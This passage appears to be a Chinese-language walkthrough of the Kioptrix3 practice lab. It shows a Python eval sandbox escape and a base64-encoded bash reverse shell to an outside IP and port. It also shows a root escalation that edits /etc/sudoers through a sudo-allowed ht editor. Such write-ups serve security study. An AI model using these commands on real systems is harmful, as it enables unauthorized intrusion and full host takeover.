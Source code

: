 1337 端口用 python 编写的，于是尝试 python 沙箱逃逸

eval(‘**import**(“os”).system(“whoami”)’) #查看是以什么权限运行

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibnZhicg05UGZ9vkzibChrplZSdkWjSvAkU5hHJdaHdiansZSK7QRQV5oMw/640?wx_fmt=jpeg)

```
eval(‘import(“os”).system(“echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Ny4xMzEvNjY2NiAwPiYx|base64 -d|bash”)’) #反弹shell
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibhyvwcCpLa8DTWArCJRib58Y5rT3vPV64PIEaHOibKkROxYkF0VVImUrg/640?wx_fmt=jpeg)

ht 编辑器
------

ht 编辑器被分配了 root 权限

```
Last login: Sat Apr 16 08:51:58 2011 from 192.168.1.106
loneferret@Kioptrix3:~$ sudo -l
User loneferret may run the following commands on this host:
(root) NOPASSWD: !/usr/bin/su
(root) NOPASSWD: /usr/local/bin/ht
```

ht 编辑器被分配 root 权限。如果编辑 / etc/sudoers，在里面给 lone 这个用户的 sudo -l 权限再添加个 / bin/bash，可以直接拿 root 的 shell 了。

ht 运行之前要设置下，输入 export TERM=xterm

底下就是命令 f3 打开 f2 保存

打开 sudoers，在用户那又加了个 / bin/bash 指令

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibydjxwofGEU8aHp5olOib9yMkZvuUCic0YJbiaSYK1adU5eh5pUXLXo9ZQ/640?wx_fmt=jpeg)

f2 保存退出。。ctrl c

再看看 sudo -l，多了命令

```
loneferret@Kioptrix3:/tmp$ sudo -l
User loneferret may run the following commands on this host:
(root) NOPASSWD: !/usr/bin/su
(root) NOPASSWD: /usr/local/bin/ht
(root) NOPASSWD: /bin/bash
```

sudo /bin/bash 搞定，转成 root

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibMJspvSfTwnufF9eE0nHgoPfWMAj37nLxERQiaA6rKTZWkfTnnQqj8zw/640?wx_fmt=jpeg)

mysql UDF 提权
------------

查看开启的端口发现有 3306
